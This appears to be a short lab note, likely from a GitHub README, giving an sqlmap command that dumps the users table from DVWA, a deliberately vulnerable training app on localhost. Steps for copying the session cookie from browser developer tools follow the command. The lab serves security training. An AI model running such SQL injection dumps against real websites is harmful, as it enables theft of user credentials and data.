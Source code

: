 Command for SQLMap:  `sqlmap -u "http://127.0.0.1:8080/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=YOUR_COOKIE_VALUE; security=low" --dump -T users`

To find Cookie value:
1. Open DVWA
2. F12 (Developer Options)
3. Storage
4. Copy PHPSESSID for the localhost URL
